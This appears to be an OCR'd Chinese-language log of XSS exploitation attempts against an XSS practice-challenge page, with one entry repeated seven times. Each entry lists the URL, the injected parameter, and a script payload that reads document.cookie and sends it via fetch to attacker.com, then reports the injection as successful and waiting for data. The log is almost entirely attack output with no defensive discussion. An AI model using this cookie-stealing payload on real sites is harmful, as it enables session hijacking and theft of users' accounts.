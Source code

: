 ### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传
